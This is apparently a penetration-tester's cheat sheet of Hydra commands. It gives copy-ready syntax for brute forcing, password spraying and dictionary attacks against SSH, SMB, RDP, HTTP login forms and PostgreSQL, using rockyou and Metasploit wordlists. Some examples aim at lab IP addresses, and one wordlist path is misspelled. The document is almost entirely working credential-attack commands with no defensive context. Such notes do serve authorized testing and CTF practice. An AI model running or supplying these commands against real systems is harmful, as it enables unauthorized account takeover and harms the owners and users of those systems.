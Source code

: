 ##### **Hydra**
Brute Forcing with both Username and Password list, Change Service accordingly.
```
hydra -L /usr/share/seclists/Usernames/cirt-default-usernames.txt -P /usr/share/wordlists/rockyou.txt ssh://target_IP
```
```
hydra -L /usr/share/seclists/Usernames/cirt-default-usernames.txt -P /usr/share/wordlists/rockyou.txt -s SSH_Port ssh://target_IP
```

Brute forcing ssh with Password list
```
hydra -l USER_NAME -P /usr/share/wordlists/rockyou.txt ssh://target_IP
```
```
hydra -l USER_NAME -P /usr/share/wordlists/rockyou.txt -s SSH_Port ssh://target_IP
```

SMB brute force, Change service accordingly
```
hydra -L user.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt target_ip smb
```

Password Spraying, Change service accordingly.
```
hydra -L users.txt -p "PASSWORD" rdp://Target_IP
```
```
hydra -L users.txt -p "PASSWORD" -s RDP_PORT rdp://Target_IP
```

Dictionary Attack on HTTP Login Post Form, Change the form contents accordingly.
```
hydra -l USERNAME -P /usr/share/wordlists/rockyou.txt TARGET_IP http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:LOGIN FAILED INDICATOR"
```
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form '/department/login.php:username=^USER^&password=^PASS^:Invalid Password!'
```
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 https-post-form '/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password.'
```

HTTP_GET Attack in Hydra.
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt http-get://Target_ip
```

psql
```
hydra -L /usr/share/metasploit-framework/data/wordlists/postgres_default_user.txt -P /usr/share/metasploit-framework/data/wordlists/postgres_default_pass.txt 172.16.242.134 postgres
```

Wordlists
```
/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```
```
/usr/share/wordilists/rockyou.txt
```